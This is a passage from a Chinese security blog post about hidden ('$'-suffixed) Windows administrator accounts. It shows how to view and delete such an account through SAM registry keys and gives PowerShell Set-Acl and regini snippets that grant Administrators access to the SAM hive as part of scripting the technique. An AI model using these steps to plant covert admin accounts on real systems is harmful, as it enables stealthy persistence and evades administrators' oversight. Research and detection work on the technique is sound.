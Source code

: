 但可通过如下方式查看：

```
net user test$
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-10/2-7.png)

无法通过`net user test$ /del`删除该用户，提示用户不属于此组，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-10/2-8.png)

**删除方法：**

删除注册表`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\`下对应帐户的键值(共有两处)

**注：**

工具HideAdmin能自动实现以上的创建和删除操作



## 0x03 编写脚本实现思路
---

采用powershell脚本实现的两种思路：

### 1、对注册表添加管理员帐户的编辑权限

使用regini注册ini文件为注册表及其子键赋予权限

**注：**

Powershell通过`Set-Acl`为注册表赋予权限，示例代码：

```
$acl = Get-Acl HKLM:SAM\SAM\
$person = [System.Security.Principal.NTAccount]"Administrators"
$access = [System.Security.AccessControl.RegistryRights]"FullControl"
$inheritance = [System.Security.AccessControl.InheritanceFlags]"None"
$propagation = [System.Security.AccessControl.PropagationFlags]"NoPropagateInherit"
$type = [System.Security.AccessControl.AccessControlType]"Allow"
$rule = New-Object System.Security.AccessControl.RegistryAccessRule( `
$person,$access,$inheritance,$propagation,$type)
$acl.ResetAccessRule($rule)
Set-Acl HKLM:SAM\SAM\Domains\Account\Users\Names $acl
```

但不支持对子键的权限分配，因此不采用该方法

以下内容保存为a.ini:

```
HKEY_LOCAL_MACHINE\SAM\SAM\* [1 17]
```

**注：**
